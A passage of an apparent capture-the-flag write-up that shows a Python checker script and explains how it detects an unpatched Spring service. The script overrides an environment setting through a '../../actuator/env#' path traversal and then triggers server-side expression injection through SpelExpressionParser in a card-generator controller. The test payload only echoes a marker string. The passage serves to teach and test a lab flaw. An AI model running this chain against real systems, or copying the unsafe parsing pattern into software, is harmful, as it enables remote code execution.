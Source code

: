```python
        if r1.status_code != 200:
            return STATUS_DOWN

        r2 = requests.post(f"{base}/abilities", json={
            "id": "../../actuator/env#",
            "name": "SPECIAL_ABILITY",
            "value": '#{"suppppperrrrrrreeassssyyyyychallllennnnggeeeee"}'
        }, timeout=5)
        if r2.status_code != 200:
            return STATUS_DOWN

        r3 = requests.post(f"{base}/generate", data={"pokemonId": "3"}, timeout=5)
        if r3.status_code != 200:
            return STATUS_DOWN

        if "suppppperrrrrrreeassssyyyyychallllennnnggeeeee" in r3.text:
            return STATUS_UNPATCHED
        else:
            return STATUS_PATCHED

    except requests.RequestException:
        return STATUS_DOWN
    except Exception:
        return STATUS_DOWN

if __name__ == "__main__":
    host = sys.argv[1] if len(sys.argv) > 1 else "localhost"
    port = int(sys.argv[2]) if len(sys.argv) > 2 else 3000
    code = run_exploit(host, port)
    print(code)
    sys.exit(code)
```

From the 1st request (r1), it is shown that the SLA script will try to manipulate the env file data which is the SHADOW_ENABLE to be true. From the source code, if the SHADOW_ENABLE=true, the generated Pokémon card will have the name Shadow at the start, having additional type which is Dark and able to set the SPECIAL_ABILITY based on user input as in the 2nd request (r2) then it will be parsed using the SpelExpressionParser PARSER.

```java
import libraries_here 

@Controller 
public class CardGeneratorController { 
    private static final SpelExpressionParser PARSER = new SpelExpressionParser(); 
    private static final TemplateParserContext CTX = new TemplateParserContext(); 
    {...} // other fields and methods 

    @PostMapping("/generate")
    {...} // other mappings 

        if (isShadow()) { 
            p.setName("Shadow " + p.getName()); 
            p.getTypes().add("Dark"); 
            String raw = env.getProperty("SPECIAL_ABILITY"); 
            if (raw != null) { 
                p.setAbility(PARSER.parseExpression(raw, CTX).getValue(String.class)); 
            } 
        } 

        m.addAttribute("shadowEnabled", true); 
        m.addAttribute("pokemon", p); 
        return "card-result"; 
    } 
```